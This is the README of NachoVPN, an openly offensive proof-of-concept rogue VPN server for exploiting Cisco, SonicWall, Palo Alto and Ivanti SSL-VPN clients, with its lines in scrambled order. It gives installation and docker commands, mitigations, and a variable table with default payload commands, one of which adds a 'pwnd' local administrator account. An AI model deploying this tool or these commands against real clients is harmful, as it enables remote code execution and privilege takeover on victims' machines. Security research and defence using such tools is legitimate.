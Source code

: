 
        <img src="https://github.com/AmberWolfCyber/NachoVPN/actions/workflows/build-docker.yml/badge.svg" /></a>
        <img src="https://img.shields.io/badge/License-MIT-yellow.svg" /></a>
    <a href="LICENSE" alt="License: MIT">
    <a href="https://github.com/AmberWolfCyber/NachoVPN/actions/workflows" alt="Docker Build">
    <img src="logo.png">
## Building for distribution
## Contributing
## Installation
## License
## Mitigations
## References
## Running
### Building a container image
### Building a wheel file
### Building for local development
### Debugging
### Environment Variables
### Installing from source
### Plugins
### Prerequisites
#### Disabling a plugin
#### Operating Notes
#### URI handlers
* Consider using an Application Control policy, such as WDAC, or an EDR solution to ensure that only approved executables and scripts can be executed by the VPN client.
* Detect and alert on VPN clients executing non-standard child processes.
* Docker (optional)
* Ensure SSL-VPN clients are updated to the latest version available from the vendor.
* For convenience, a default `NACAgent.exe` payload is generated for the SonicWall plugin, and written to the `payloads` directory. This simply spawns a new `cmd.exe` process on the current user's desktop, running as `SYSTEM`.
* In order to simulate a valid codesigning certificate for the SonicWall plugin, NachoVPN will sign the `NACAgent.exe` payload with a self-signed certificate. For testing purposes, you can download and install this CA certificate from `/sonicwall/ca.crt` before triggering the exploit. For production use-cases, you will need to obtain a valid codesigning certificate from a public CA, sign your `NACAgent.exe` payload, and place it in the `payloads` directory (or volume mount it into `/app/payloads`, if using docker).
* It is recommended to use a TLS certificate that is signed by a trusted Certificate Authority. The docker container automates this process for you, using certbot. If you do not use a trusted certificate, then NachoVPN will generate a self-signed certificate instead, which in most cases will either cause the client to prompt with a certificate warning, or it will refuse to connect unless you modify the client settings to accept self-signed certificates. For the Palo Alto GlobalProtect plugin, this will also cause the MSI installer to fail.
* Most VPN clients support the concept of locking down the VPN profile to a specific endpoint, or using an always-on VPN mode. This should be enabled where possible.
* Python 3.9 or later
* The Ivanti Connect Secure (Pulse Secure) URI handler can be triggered by visiting the `/pulse` URL on the NachoVPN server.
* The Palo Alto GlobalProtect plugin requires that the MSI installers and `msi_version.txt` file are present in the `downloads` directory. Either add these manually, or run the `msi_downloader.py` script to download them.
* The SonicWall NetExtender URI handler can be triggered by visiting the `/sonicwall` URL on the NachoVPN server. This requires that the SonicWall Connect Agent is installed on the client machine.
* Unfortunately, in some cases this lockdown can be removed by a malicious local user, therefore it is also recommended to use host-based firewall rules to restrict the IP addresses that the VPN client can communicate with.
* [AmberWolf Blog: NachoVPN](https://blog.amberwolf.com/blog/2024/november/introducing-nachovpn---one-vpn-server-to-pwn-them-all/)
* [BlackHat 2008: Leveraging the Edge: Abusing SSL VPNs, Mike Zusman](https://www.blackhat.com/presentations/bh-usa-08/Zusman/BH_US_08_Zusman_SSL_VPN_Abuse.pdf)
* [BlackHat 2019: Infiltrating Corporate Intranet Like NSA, Orange Tsai & Meh Chang](https://i.blackhat.com/USA-19/Wednesday/us-19-Tsai-Infiltrating-Corporate-Intranet-Like-NSA.pdf)
* [HackFest Hollywood 2024: Very Pwnable Networks: Exploiting the Top Corporate VPN Clients for Remote Root and SYSTEM Shells, Rich Warren & David Cash](https://github.com/AmberWolfCyber/presentations/blob/main/2024/Very%20Pwnable%20Networks%20-%20HackFest%20Hollywood%202024.pdf) [[video](https://www.youtube.com/watch?v=-MZfkmcZRVg)]
* [NCC Group: Making New Connections: Leveraging Cisco AnyConnect Client to Drop and Run Payloads, David Cash & Julian Storr](https://www.nccgroup.com/uk/research-blog/making-new-connections-leveraging-cisco-anyconnect-client-to-drop-and-run-payloads/)
* [The OpenConnect Project](https://www.infradead.org/openconnect/)
* git (optional)
* msitools (Linux only)
* osslsigncode (Linux only)
.\env\Scripts\activate
</p>
<p align="center">
Alternatively, for local development you can install the package in editable mode using:
Alternatively, for testing purposes, you can skip the certificate generation by setting the `SKIP_CERTBOT` environment variable.
Alternatively, if the logging is too noisy, you can use the `q` or `--quiet` command line argument instead.
Alternatively, you can run the server using Docker:
An example [docker-compose file](docker-compose.yml) is also provided for convenience.
DISABLED_PLUGINS=CiscoPlugin,SonicWallPlugin
First, clone this repository, and install `setuptools` and `wheel` via pip. You can then run the `setup.py` script:
First, create a virtual environment. On Linux, this can be done with:
For further details, see our [blog post](https://blog.amberwolf.com/blog/2024/november/introducing-nachovpn---one-vpn-server-to-pwn-them-all/), and HackFest Hollywood 2024 presentation [[slides](https://github.com/AmberWolfCyber/presentations/blob/main/2024/Very%20Pwnable%20Networks%20-%20HackFest%20Hollywood%202024.pdf)|[video](https://www.youtube.com/watch?v=-MZfkmcZRVg)].
Global environment variables:
If you prefer to use Docker, then you can pull the container from the GitHub Container Registry:
If you're interested in developing a new plugin, you can take a look at the [ExamplePlugin](src/nachovpn/plugins/example/plugin.py) to get started.
It uses a plugin-based architecture so that support for additional SSL-VPN products can be contributed by the community. It currently supports various popular corporate VPN products, such as Cisco AnyConnect, SonicWall NetExtender, Palo Alto GlobalProtect, and Ivanti Connect Secure.
NachoVPN can be installed from GitHub using pip. Note that this requires git to be installed.
NachoVPN is a Proof of Concept that demonstrates exploitation of SSL-VPN clients, using a rogue VPN server.
NachoVPN is configured using environment variables. This makes it easily compatible with containerised deployments.
NachoVPN is licensed under the MIT license. See the [LICENSE](LICENSE) file for details.
NachoVPN supports the following plugins and capabilities:
On Windows, use:
Plugin specific environment variables:
Then, install NachoVPN:
This will generate a certificate for the `SERVER_FQDN` using certbot, and save it to the `certs` directory, which we've mounted into the container.
This will generate a self-signed certificate instead.
This will generate a wheel file in the `dist` directory, which can be installed with pip:
To disable a plugin, add it to the `DISABLED_PLUGINS` environment variable. For example:
To run the server as standalone, use:
We recommend the following mitigations:
We welcome contributions! Please open an issue or raise a Pull Request.
You can build the container image with the following command:
You can run `nachovpn` with the `-d` or `--debug` command line arguments in order to increase the verbosity of logging, which can aid in debugging.
```
```bash
docker build -t nachovpn:latest .
docker pull ghcr.io/amberwolfcyber/nachovpn:release
docker run -e SERVER_FQDN=connect.nachovpn.local -e EXTERNAL_IP=1.2.3.4 -v ./certs:/app/certs -p 80:80 -p 443:443 --rm -it nachovpn
docker run -e SERVER_FQDN=connect.nachovpn.local -e SKIP_CERTBOT=1 -e EXTERNAL_IP=1.2.3.4 -p 443:443 --rm -it nachovpn
git clone https://github.com/AmberWolfCyber/NachoVPN
pip install -U setuptools wheel
pip install -e .
pip install dist/nachovpn-1.0.0-py3-none-any.whl
pip install git+https://github.com/AmberWolfCyber/NachoVPN.git
python -m nachovpn.server
python -m venv env
python setup.py bdist_wheel
python3 -m venv env
source env/bin/activate
| -------- | ----------- | ------- |
| -------- | ----------- | -------- | -------- | -------- | -------- | -------- | -------- | ---- |
| Plugin | Product | CVE | Windows RCE | macOS RCE | Privileged | URI Handler | Packet Capture | Demo |
| Variable | Description | Default |
| `CISCO_COMMAND_MACOS` | The command to be executed by the Cisco AnyConnect OnConnect.sh script on macOS. | `touch /tmp/pwnd` |
| `CISCO_COMMAND_WIN` | The command to be executed by the Cisco AnyConnect OnConnect.vbs script on Windows. | `calc.exe` |
| `DISABLED_PLUGINS` | A comma-separated list of plugins to disable. | |
| `EXTERNAL_IP` | The external IP address of the server. | `127.0.0.1` |
| `PALO_ALTO_FORCE_PATCH` | Whether to force the patching of the MSI installer if it already exists in the payloads directory. | `false` |
| `PALO_ALTO_MSI_ADD_FILE` | The path to a file to be added to the Palo Alto installer MSI. | |
| `PALO_ALTO_MSI_COMMAND` | The command to be executed by the Palo Alto installer MSI. | `net user pwnd Passw0rd123! /add && net localgroup administrators pwnd /add` |
| `PALO_ALTO_PKG_COMMAND` | The command to be executed by the Palo Alto installer PKG on macOS. | `touch /tmp/pwnd` |
| `PULSE_ANONYMOUS_AUTH` | Whether to use anonymous authentication for Pulse Secure connections. If set to `true`, the user will not be prompted for a username or password. | `false` |
| `PULSE_DNS_SUFFIX` | The DNS suffix to be used for Pulse Secure connections. | `nachovpn.local` |
| `PULSE_LOGON_SCRIPT_MACOS` | The path to the Pulse Secure logon script for macOS. | |
| `PULSE_LOGON_SCRIPT` | The path to the Pulse Secure logon script. | `C:\Windows\System32\calc.exe` |
| `PULSE_SAVE_CONNECTION` | Whether to save the Pulse Secure connection in the user's client. | `false` |
| `PULSE_USERNAME` | The username to be pre-filled in the Pulse Secure logon dialog. | |
| `SERVER_FQDN` | The fully qualified domain name of the server. | `connect.nachovpn.local` |
| `SERVER_MD5_THUMBPRINT` | Allows overriding the calculated MD5 thumbprint for the server certificate. | |
| `SERVER_SHA1_THUMBPRINT` | Allows overriding the calculated SHA1 thumbprint for the server certificate. | |
| `USE_DYNAMIC_SERVER_THUMBPRINT` | Whether to calculate the server certificate thumbprint dynamically from the server (useful if behind a proxy). | `false` |
| `VPN_NAME` | The name of the VPN profile, which is presented to the client for Cisco AnyConnect. | `NachoVPN` |
| `WRITE_PCAP` | Whether to write captured PCAP files to disk. | `false` |
